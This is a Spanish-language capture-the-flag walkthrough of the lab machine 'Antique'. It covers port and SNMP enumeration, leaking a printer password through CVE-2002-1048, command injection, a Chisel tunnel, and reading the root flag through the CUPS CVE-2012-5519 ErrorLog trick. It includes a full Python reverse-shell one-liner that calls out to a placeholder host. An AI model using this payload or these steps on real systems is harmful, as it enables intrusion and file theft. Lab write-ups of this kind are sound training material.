








Antique
- Realizo un escaneo de puertos nmap 10.10.11.107 -Pn -sC -sV -p- --open -T4
- Encuentro telnet pero no puedo acceder a el porque no tengo la pass
- Procedo a hacer una enumeracion de puertos UDP nmap 10.10.11.107 -sU --top-ports 20 -sV
- Encuentro la version snmp

- realizo un footprint de servicio snmpwalk -v 2c -c public 10.10.11.107

- Esta version de printer tiene la vulnerabilidad
Printer SNMP JetAdmin Device Password Disclosure Vulnerability (CVE-2002-1048 Detail)
- Parece ser que la contraseña se almacena en una variable SNMP. Si solicito la variable especifica me devolverá la contraseña codificada en hexadecimal. snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
- Descodifico la pass

- Despues de meter la contraseña obtengo un prompt.

- Es vulnerable a comand injection

- Obtengo un reverse shell exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
- Uso linpeas y encuentro que hay algo interno que está escuchando

- Tengo que hacer un Tunneling a través de SSH.
- Para el Tunneling usaré Chisel

./chisel_1.7.7_linux_amd64 client <IP>:9000 R:9631:localhost:631- Accedo a la página web

- CUPS 1.6.1 tiene el CVE-2012_5519
- Este módulo imprime por pantalla la ubicación del log de error. Además, aquellos usuarios del grupo lpadmin son capaces de modificar dicha ubicación con el comando cupsctl. Comprobamos que pertenecemos a dicho grupo. lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
- Encuentro la flag de root